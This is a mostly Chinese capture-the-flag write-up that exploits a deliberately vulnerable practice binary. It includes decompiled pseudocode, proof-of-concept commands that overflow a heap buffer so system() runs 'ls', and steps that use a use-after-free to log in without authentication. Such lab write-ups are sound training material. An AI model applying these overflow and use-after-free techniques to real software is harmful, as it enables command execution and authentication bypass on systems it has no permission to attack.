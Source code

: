 # vuln

Run the binary `vuln` on the device, it has a `Heap Overflow` and a `Use-after-free` vulnerability. Exploit the `Heap overflow` to execute the `ls` command on the device and
exploit the `UaF` to successfully login without authentication.

## Heap Overflow

- 找到漏洞函数的触发口，伪代码如下：

![](./img/vuln-heap-overflow-entry.png)

触发命令：`./bin/vuln heap 123`


- 找到溢出点：

1. `_heapOverflow(*(var_10 + 0x10))` 即将 argv[2] 传入
2. 通过伪代码能知道，打开`argv[2]`文件并且拷贝至 `var_20`, 这里可能发生溢出。

```c
int _heapOverflow(int arg0) {
    printf("Heap overflow challenge. Execute a shell command of your choice on the device\n");
    stack[-80] = arg0;
    printf("Welcome: from %s, printing out the current user\n", r1);
    var_10 = fopen(arg0, "rb");
    fseek(var_10, 0x0, 0x2);
    var_18 = ftell(var_10);
    fseek(var_10, 0x0, 0x0);
    var_20 = malloc(0x400);
    var_28 = malloc(0x400);
    __strcpy_chk();
    fread(var_20, 0x1, var_18, var_10);
    r0 = system(var_28);
    return r0;
}
```
3. 构造poc
    
    1. poc1
    ```bash
    $ python3 -c "print('A' * 2048)" > poc.txt
    $ ./bin/vuln heap poc.txt
    ```
    ![](./img/vuln-heap-overflow-poc1.png)
    溢出到 var_28 正好是 1024，那就简单了
    
    2. poc2
    ```bash
    $ python3 -c "print('A' * 1024+'ls')" > poc.txt
    $ ./bin/vuln heap poc.txt
    Address of main function is 0x1040dbb8c
    Heap overflow challenge. Execute a shell command of your choice on the device
    Welcome: from poc.txt, printing out the current user
    bin	img	poc.txt	vuln.md
    sh: line 1: ami: command not found
    ```
    `ls` 命令是执行成功了，但是这个错误是为啥呢`sh: line 1: ami: command not found`？

    看下汇编，这里使用[__strcpy_chk](https://refspecs.linuxbase.org/LSB_4.1.0/LSB-Core-generic/LSB-Core-generic/libc---strcpy-chk-1.html) 拷贝了字符串到 `var_28` 并检查缓存溢出：
    ![](./img/vuln-heap-overflow-poc2.png)

    3. poc3
    ![](./img/vuln-heap-overflow-poc3.png)
    再填充三个空格抵消 `whoami` 命令。


## Uaf

- 触发命令：`./bin/vuln uaf`
- 找到了大概逻辑：
    - username 命令做了啥：
        从命令行读取 `username xxx`，malloc 分配内存 -> 0x100008008 并赋值 username

    - 找到了隐藏的 reset 命令：释放`0x100008008`内存。
    - `customerChat xxx`： 命令使用 `strdup` 函数复制字符串并返回指向新分配的内存块的指针。
    - `login` 如果 *0x100008008 + 0x100 的值等于 "BBB" 就算利用成功。

所以利用漏洞的流程就是：
1. username zznq 创建用户
2. reset 释放
3. 重复多次执行直到覆盖了user的地址(注意长度 0x100+3)：customerChat BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
4. login 就能利用成功

![](./img/vuln-uaf-poc1.png)

# Hopper vs Ghidra

Ghidra 生成的伪代码比hopper 逻辑清晰太多了：

- ![](./img/ghidra-main.png)
